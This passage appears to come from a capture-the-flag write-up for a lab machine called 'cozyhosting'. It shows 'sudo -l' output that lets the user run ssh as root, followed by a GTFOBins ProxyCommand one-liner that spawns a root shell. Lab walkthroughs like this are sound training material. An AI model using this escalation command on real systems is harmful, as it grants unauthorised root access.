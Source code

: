 ### Sudo Privileges --> Root

Since we have the user's password, we can check our `sudo` privileges:

```
josh@cozyhosting:~$ sudo -l                                                                  
[sudo] password for josh:                                                                    
Matching Defaults entries for josh on localhost:                                             
    env_reset, mail_badpass,                                                                 
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty                                                                                  

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Using the command on GTFOBins, we can spawn a `root` shell:

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

<figure><img src="../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
